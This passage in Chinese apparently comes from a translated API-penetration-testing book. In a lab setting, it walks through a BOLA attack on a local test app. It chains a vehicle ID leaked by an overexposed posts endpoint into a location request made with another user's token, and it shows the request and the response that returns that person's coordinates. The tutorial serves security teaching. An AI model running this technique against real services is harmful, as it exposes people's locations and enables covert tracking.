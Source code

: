 列表 10-6：对 BOLA 攻击的响应

恭喜你，发现了 BOLA 漏洞。也许有办法发现其他有效用户的 GUID，将这一发现提升到新的层次。好吧，记住在第七章中，拦截的 GET 请求到*/community/api/v2/community/posts/recent*导致了数据过度曝光。乍一看，这个漏洞似乎没有严重的后果。然而，现在我们可以充分利用这些暴露的数据。看看从过度数据暴露中得到的以下对象：

```
{
"id":"sEcaWGHf5d63T2E7asChJc",
"title":"Title 1",
"content":"Hello world 1",
"author":{
"nickname":"Adam",
"email":"adam007@example.com",
"vehicleid":**"2e88a86c-8b3b-4bd1-8117-85f3c8b52ed2",**
"profile_pic_url":"",
}
```

这些数据揭示了一个`vehicleid`，它与刷新位置请求中使用的 GUID 非常相似。用 UserA 的 token 替换这些 GUID。列表 10-7 显示了请求，列表 10-8 显示了响应。

```
GET /identity/api/v2/vehicle/2e88a86c-8b3b-4bd1-8117-85f3c8b52ed2/location HTTP/1.1
Host: 192.168.195.130:8888
Content-Type: application/json
Authorization: Bearer **UserA-Token**
Connection: close
```

列表 10-7：请求另一个用户的 GUID

```
HTTP/1.1 200
{
"carId":"2e88a86c-8b3b-4bd1-8117-85f3c8b52ed2",
"vehicleLocation":{
     "id":7,
     "latitude":"37.233333",
     "longitude":"-115.808333"},
"fullName":"Adam"
}
```

列表 10-8：响应

果然，你可以利用 BOLA 漏洞来发现用户车辆的位置。现在，你只需通过一次 Google 地图搜索，就能发现用户的确切位置，并获得随时间追踪任何用户车辆位置的能力。像本实验中一样结合漏洞发现，将使你成为一名 API 黑客大师。
